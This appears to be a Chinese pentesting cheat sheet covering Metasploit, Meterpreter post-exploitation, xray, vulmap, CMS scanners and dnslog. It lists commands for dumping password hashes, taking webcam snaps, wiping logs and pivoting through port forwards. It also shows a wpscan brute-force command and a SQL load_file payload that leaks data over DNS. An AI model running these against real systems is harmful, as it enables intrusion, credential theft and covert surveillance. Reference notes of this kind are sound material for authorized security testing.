 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ 打开msf终端：``msfconsole``
	+ msf数据库初始化：``msfdb init``
	+ msf更新：``apt install metasploit framework``
	+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程：``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库：``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库：``db_nmap``
	+ 显示命令的帮助信息：``help [db_connect]``
	+ 搜索含有关键字的模块：``search [module]``
	+ 选择模块：``use [module]``
	+ 显示模块支持的payload：``show payload``
	+ 显示模块参数：``show options``
	+ info详情：``info``
	+ 设置取消参数：``set/unset [opt]``
	+ 设置取消全局参数：``setg/unsetg [opt]``
	+ 返回上级状态：``back``
	+ 运行攻击模块：``exploit/run``
	+ 查看当前连接会话：``sessions``
- meterpreter后渗透利用
	+ 打印当前工作目录：``pwd``
	+ 查看系统信息：``sysinfo``
	+ 查看当前目标机上运行的进程列表和pid：``ps``
	+ 调用相机拍摄照片：``webcam_snap``
	+ 运行vnc远程查看屏幕：``run vnc``
	+ 开启远程登录3389（windows）：``run post/windows/manage/enable_rdp``
	+ 截取目标主机当前屏幕​：``screenshot``
	+ 获取当前权限的用户id：``getuid``
	+ 获取system权限：``getsystem``
	+ 获取用户名与hash口令：``hashdump``
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：``shell``
	+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
	+ 上传一个文件：``upload``
	+ 下载一个文件：``download``
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：``excute``
	+ 清除日志：``clearev``
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：``background``
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：``run get_local_subnets``
	+ arp扫描内网机器：``run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24``
	+ 使用autoroute模块添加到达内网的路由经session 1转发：``run autoroute -s 169.254.0.0/16 1``
	+ 查看当前的路由表：``run autoroute -p``
	+ 扫描内网存活主机：``db_nmap``
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：``portfwd add -l 7070 -r 192.168.16.59 -p 3389``
	+ 端口转发成功后就可以从本地端口连接rdp：``rdesktop 127.0.0.1:7070``

vulmap
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 项目地址：``https://github.com/zhzyker/vulmap``
- 安装
		::
		
			git clone https://github.com/zhzyker/vulmap.git
			pip3 install -r requirements.txt
			
- 基本用法：``python3 vulmap.py -u http://example.com``

xray
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 全局配置
	+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
	+ --log_level 用于指定全局的日志配置
	+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
- reverse命令
	+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
- genca
	+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
- subdomain
	+ 子域名扫描
	+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
	+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
- webscan
	+ 扫描web漏洞，核心功能
	+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
		- ``--plugins xss --plugins xss,sqldet,phantasm``
	+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
		- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
		- ``--plugins phantasm --poc "*thinkphp*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
	+ 配置输入来源
		- --listen 
			+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
		- --basic-crawler 
			+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
		- --url 
			+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
		- --raw-request 
			+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
	+ 输出方式
		- --html-output 将结果输出为 html 报告, 报告样例
		- --webhook-output 将结果发送到一个地址
		- --json-output 将结果输出到一个 json 文件中
	+ 示例
		- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
		- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``

特定CMS漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Joomscan
	- 介绍
		+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
	- 使用方法
		+ 默认检测：``joomscan -u www.example.com``
		+ 组件检测：``joomscan -u www.example.com –ec``
		+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
		+ 随机UA：``joomscan -u www.example.com -r``
		+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
+ wpscan
	- 插件漏洞:``wpscan --url https://www.xxxxx.wiki/ -e vp`` 
	- 主题漏洞:``wpscan --url https://www.xxxxxx.wiki -e vt`` 
	- 枚举用户:``wpscan --url https://www.xxxxxxx.wiki/ -e u`` 
	- 穷举密码:``wpscan --url https://www.xxxxxxx.wiki/ -U 'admin' -P /root/wordlist.txt``
+ Drupal enumeration & exploitation tool 
	- https://github.com/immunIT/drupwn
+ `dedecmscan <https://github.com/lengjibo/dedecmscan>`_ 织梦全版本漏洞扫描
+ thinkphp
	- https://github.com/Lucifer1993/TPscan
	- https://github.com/theLSA/tp5-getshell

dnslog
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用场景
	+ Sql-Blind
	+ RCE
	+ SSRF
	+ RFI（Remote File Inclusion）
- 原理
	将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
- 限制
	load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
- 示例
	+ ``select load_file('\\\\',version(),'.dnslog地址')``

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- goby
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
	+ 自动安装所有Kali Linux工具
- `x-scan <https://x-scan.apponic.com/>`_
